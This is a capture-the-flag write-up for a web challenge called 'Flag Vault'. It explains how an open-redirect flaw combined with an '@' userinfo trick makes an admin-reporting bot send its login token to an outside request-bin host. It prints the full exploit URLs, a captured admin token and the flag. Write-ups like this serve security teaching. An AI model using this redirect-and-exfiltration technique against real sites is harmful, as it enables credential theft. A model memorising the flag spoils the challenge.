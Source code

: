 # Flag Vault


## Steps of Analysis

### 1. Inspecting
We're taken into a small site:
(image here - main page)
Its body looks like that:
```html
<body>
    <main>
        <h1>Flag Vault</h1>
        <form>
            <input type="email" required name="email" placeholder="Email" />
            <input type="password" required name="password" placeholder="Password" />
            <button>Show Flag</button>
        </form>
        <a href="javascript:report()">Report a bug</a>
    </main>
    <script>
        const params = new URLSearchParams(window.location.search);
        const query = Object.fromEntries(params.entries());
        const redirectTo = String(query.redirect || "");

        const form = document.querySelector("form");
        const email = document.querySelector("input[name=email]");
        const password = document.querySelector("input[name=password]");

        form.addEventListener("submit", async function (event) {
            event.preventDefault();

            const jsonBody = JSON.stringify({ email: email.value, password: password.value });

            const response = await fetch("/api/v1/login", {
                method: "POST",
                headers: {
                    "Content-Type": "application/json"
                },
                body: jsonBody
            });

            if (response.status === 401) {
                return alert("Invalid email or password");
            }

            const jsonData = await response.json();
            window.location = location.origin + redirectTo + "?token=" + jsonData.token;
        });

        function report() {
            const url = prompt("URL", window.location.href);
            fetch("/api/v1/report?url=" + encodeURIComponent(url));
        }
    </script>
</body>
```
POST request sent with the email and password and a secret token probably sent back when the email and the password is correct.
Two interesting points there are:
* The "report a bug" button
* The redirect mechanism

Needless to say that we don't know the "correct" email and password:
(image here - main page error)

### 2. Report a Bug
We can "report" a bug by sending a URL

(image here - main page report bug)

We assume that  "someone" (probably the admin) will enter that link later to watch the given link.

We'd  like to make the admin in the other side to enter a link that controlled by us (like in a request bin) to get his cookies (the token in our case)

The problem with the above idea is that the server returns an error when it gets external URL.

So we can't send in the "report bug" request a direct link to the request bin because sending:
http://flag-vault.chal.intentsummit.org/api/v1/report?url=http://enqr0riu3ob4o6p.m.pipedream.net
will result in:
```
{"error":"INVALID_URL_HOST"}
```

Therefore the link that we give here should be in the same domain.

All in all looks ok, and no bugs being seen so far... :(

But fortunately, there is another place in the code that can send (redirect) us to other place.

### 3. Redirect
The bug is in the redirect mechanism

The redirection mechanism here takes the content of a parameter named "redirect":
```js
const redirectTo = String(query.redirect || "");
```
And later **concatenates** the current address to it
```js
window.location = location.origin + redirectTo + "?token=" + jsonData.token;
```
Can we make this expression to go outside the domain?

YES :)

We can use the current address to be parsed as a **username** instead of an address by concatenating to it an "@" symbol.

In that way, sending @enqr0riu3ob4o6p.m.pipedream.net as "redirect" parameter will result in changing the window location to:
http://flag-vault.chal.intentsummit.org@enqr0riu3ob4o6p.m.pipedream.net
The previously-domain-name is now used as a username :)

### 4. Conclusion
So far, we want to report an address in the domain.

And we want the admin to enter it and to be redirected to the our request-bin, hopefully with its token.

We can achieve it by reporting on this URL:
http://flag-vault.chal.intentsummit.org/?redirect=@enqr0riu3ob4o6p.m.pipedream.net

The address here is in the "right domain", and upon redirection the "right domain" will be treated as a username.

Cool

## solution
According to the above, we'll send this request first:
http://flag-vault.chal.intentsummit.org/api/v1/report?url=http://flag-vault.chal.intentsummit.org/?redirect=@enqr0riu3ob4o6p.m.pipedream.net
In response we get the token to the request bin!
(image here - request bin token)

The expiration date of the token is 10 seconds, so in that time we should quickly send:
http://flag-vault.chal.intentsummit.org/admin/?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhZG1pbiI6dHJ1ZSwiaWF0IjoxNjM2OTI1NTU0LCJleHAiOjE2MzY5MjU1NjR9.kkBa7w3fkp2kO06TcV-V1lYQFCrfNVBIbG5TFd8RS1I
response:
```
{"flag":"INTENT{danger0us_0pen_red1rect}"}
```

